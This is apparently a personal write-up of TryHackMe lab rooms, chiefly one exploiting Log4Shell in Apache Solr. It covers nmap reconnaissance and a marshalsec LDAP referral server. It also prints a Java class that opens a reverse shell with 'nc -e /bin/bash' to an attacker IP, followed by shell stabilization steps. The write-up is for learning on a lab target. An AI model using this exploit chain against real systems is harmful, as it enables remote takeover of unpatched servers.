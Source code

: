 # TryHackMe: Complete Beginner (Supplements) & Exploiting Log4j

**author**:: Nathan Acks  
**date**:: 2022-01-02

Finishing up the supplemental rooms around the TryHackMe: Complete Beginner sequence and then working through a special room covering the recently discovered Log4j vulnerabilities as a fun aside.

* [TryHackMe: Complete Beginner](https://tryhackme.com/path-action/beginner/)
* [TryHackMe: Solar, exploiting log4j](https://tryhackme.com/room/solar)

## TryHackMe: Complete Beginner (Supplements)

### Retro

[See my Retro CTF write-up.](../notes/tryhackme-retro.md)

## Exploiting Log4j

### Reconnaissance

The target has an IP address of 10.10.177.64. We'll start off with a normal nmap scan, though I'm going to be a bit less aggressive since we're just looking to enumerate ports/services.

```bash
sudo nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
```

This gives us:

```
# Nmap 7.92 scan initiated Sun Jan  2 20:58:25 2022 as: nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
Nmap scan report for 10.10.177.64
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
|   256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
|_  256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.177.64:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/2%OT=22%CT=1%CU=42554%PV=Y%DS=4%DC=T%G=Y%TM=61D276A8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 44.471 days (since Fri Nov 19 09:49:52 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   29.11 ms  10.13.0.1
2   ... 3
4   171.20 ms 10.10.177.64

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  2 21:08:08 2022 -- 1 IP address (1 host up) scanned in 582.99 seconds
```

The service running on port 8983 has an HTML page title of "Solr Admin", which seems to be part of Apache Solr.

* [Using "nmap"](../notes/nmap.md)
* [Apache Solr](https://solr.apache.org/)

### Proof of Concept

It's still not 100% clear to me why use of LDAP is required to trigger Log4Shell, but I'm *guessing* this is used because it's one of the protocols that JNDI supports. This makes a little more sense given that JNDI stands for the Java Naming and *Directory* Interface… But it still feels kinda wacky to me that one would store Java objects in… LDAP.

* [Java Naming and Directory Interface (Wikipedia)](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)

### Exploitation

This section makes the question I wrote above at least a little more clear — LDAP is providing a URL using a more sensible protocol like HTTP that JNDI is then loading the Java code from. So the sequence is malicious request → LDAP lookup → load Java code over HTTP.

A simple Java LDAP server that will do just this is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 should match `$ATTACKER_IP` above, and 9999 is the port of the local listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

* [Using "netcat"](../notes/netcat.md)

### Persistence

Generic netcat shell stabilization steps (when running bash at *both* ends):

* Run `python3 -c "import pty; pty.spawn('/bin/bash')"` on the target.
* Background the reverse shell with Ctrl+Z.
* Run `stty raw -echo` to disable foreground echo (echo will be handled by the target).
* Foreground the reverse shell with `fg` (there won't be any output).
* Hit Enter a couple of times to get back a prompt, and then `export TERM=xterm`.

That should be good enough.
